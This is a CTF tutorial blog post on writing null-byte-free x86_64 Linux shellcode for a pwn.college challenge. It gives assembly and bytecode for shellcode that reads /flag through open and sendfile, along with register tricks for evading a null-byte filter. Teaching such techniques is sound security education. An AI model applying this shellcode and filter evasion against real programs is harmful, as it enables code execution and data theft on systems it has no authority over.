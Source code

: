 ```yaml
---
layout: post
title: Writing a null byte free shellcode for x86_64 Linux
date: 2025-02-21 00:13:37 +0300
description: 
img: removingnullbytes/cover_nullbytes.png
fig-caption: 
tags:
  - ctf
---
```

*When writing the assembly to create a shellcode, normally we face challenges like having the need to create a null byte free one. This post will show you the principle to remove null bytes in your code without using any tools.*

# TL;DR;
- Avoid using instructions without the exact amount of bytes you want to manipulate, because widening instructions will produce  null bytes to (e.g.) put a 8-bit operand into a 64-bit register.
- Do `xor rax, rax` instead of `mov rax, 0`
- Perform shift left operations for non 8-bit multiple numbers.

# Writing a simple shellcode to retrieve data from "/flag"
There are some CTF challenges out there that need you to send some shellcode in order to read the flag. I will use *[pwn.college](https://pwn.college)* example to make things easy to understand.

The challenge itself asks us to do a simple thing: input a shellcode to read the contents of the flag in "**/flag**", but the program would filter out all the null bytes present in the shellcode and execute it. 

Let's write some code to do it!

*Shellcode to read contents of "/flag"*
```assembly
.global _start
_start:
.intel_syntax noprefix

; syscall for open(/flag)
mov rax, 2
mov rbx, 0x67616c662f
push rbx
mov rdi, rsp
mov rsi, 2
mov rdx, 0
syscall

; syscall for sendfile and print to stdout
mov rsi, rax
mov rdi, 1
mov rdx, 0
mov r10, 64
mov rax, 40
syscall
```

After compiling it, let's see the bytecode of it

![](../assets/img/removingnullbytes/Pasted%20image%2020250221103405.png)
*Shellcode bytecode*

See the amount of null bytes produced? Normally programs would block (or filter) them because they are normally very problematic for the program functions (e.g. The null byte "**\\0**" is the delimiter for the end of a string in *strlen()*). Since the program just filter the null bytes out and execute it, it would break the code if we let it this way.

This is due to the amount of widening functions present, widening instructions will produce null bytes to (e.g.) put a 8-bit operand into a 64-bit register, like using `mov rax, 1` will literally move `00000001` value into the *RAX* register, and all those zeros will be present in the program bytes.

How do we circumvent that? Changing widening functions to exact size operations.

# Breaking down instructions

Let's analyze each step of the shellcode and change it for something without the null bytes, this will make you understand the principle behind the optimization.

> Below each code block, pay attention on how the null byte free code won't have the 00's present. 

## *mov rax, 2*
In this line we are preparing *RAX* for the *open()* syscall.

```c
mov rax, 2 
```
*Bytecode produced: 48C7C002**000000***

Like said before, this will basically move `00000002` into the *RAX* register. To change this to a shorter operation, we could perform a *XOR* operation in the *RAX* register, because perfoming a *XOR* operation using the same values will always result in 0, so we can empty the register fully. Then add `2` to the *AL* register, essentially moving a byte sized `02` into the register, avoiding all those zeros, and creating a null byte free bytecode.

```c
xor rax, rax
mov al, 2
```
*Bytecode produced: 4831C0B002*
## *mov rbx, 0x67616c662f*
In this line we are moving the "**/flag**" string to the register.

The reason behind the issue with this, is the same as before, moving a 5 byte value using a 8 byte operation, that will essentially produce 3 null bytes. 

```c
mov rbx, 0x67616c662f
```
*Bytecode produced: 48BB2F666C6167**000000***

Since we do not have a specific 5 byte instruction/register for this, there is another option:
- Performing a 4 byte (DWORD) operation to put 4 bytes of the value;
- Shift 8 bits (a byte) to the left;
- Fill the remaining byte with the byte instruction;

Let's see the code

```c
mov ebx, 0x67616c66
shl rbx, 8
mov bl, 0x2f
```
*Bytecode produced: BB666C616748C1E308B32F*

So we moved the first part of `0x67616c662f`, which is `0x67616c66`, to a 32-bit register *EBX*. Then we moved 8 bits to the left, and moved `0x2f` to the *BL* register, performing exact sized operations.

> With this same technique, supposing that you NEED a null byte to be placed in between a value, you could shift 16-bits (2 bytes) to the left, and fill the remaining byte, leaving a null byte in the register, but not present in the shellcode!
> 
> Like
```
mov ax, 0xcafe
shl rax, 16
mov al, 0xff
```
> Would result in a `0xcafe00ff` succesfully.

## *mov rdi, 1*
This is an alternative to the `mov rax, 2` presented before. Since we also could perform a *XOR* operation and do `mov dil, 1`, is also possible to *XOR* the *RDI* register and *inc rdi* to add 1 to the register.

```c
mov rdi, 1
```
*Bytecode produced: 48C7C701**000000***

```c
xor rdi, rdi
inc rdi
```
*Bytecode produced: 4831FF48FFC7*

# Putting the pieces together
With all things we already saw, performing all the changes to the code, the result is the final code presented:

*Final shellcode*
```asm
.global _start
_start:
        .intel_syntax noprefix
	    
	    ; syscall for open(/flag)
        xor rax, rax
        mov al, 2
        xor rbx, rbx 
        mov ebx, 0x67616c66
        shl rbx, 8
        mov bl, 0x2f
        push rbx
        mov rdi, rsp
        xor rsi,rsi
        mov sil, 2
        xor rdx, rdx
        syscall
        
	    ; syscall for sendfile and print to stdout
        mov rsi, rax
        xor rdi, rdi
        inc rdi
        xor rdx, rdx
        xor r10, r10
        mov r10b, 64
        xor rax, rax
        mov al, 40
        syscall
```

Now if we analyze the shellcode, we managed to remove all the null bytes we had before and even make the code smaller!

![](../assets/img/removingnullbytes/Pasted%20image%2020250221103732.png)
*Final shellcode bytecode*
